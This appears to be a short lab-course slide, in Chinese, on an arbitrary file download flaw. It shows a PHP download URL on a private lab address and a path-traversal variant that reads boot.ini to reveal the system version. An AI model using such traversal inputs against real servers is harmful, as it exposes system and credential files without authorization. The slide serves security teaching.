

# Less-15_任意文件下载

1. http://192.168.80.136/control/filedownload/file_download.php?file=template/assets/img/2.txt
2. http://192.168.80.136/control/filedownload/file_download.php?file=template/../../../boot.ini 下载看一下系统版本信息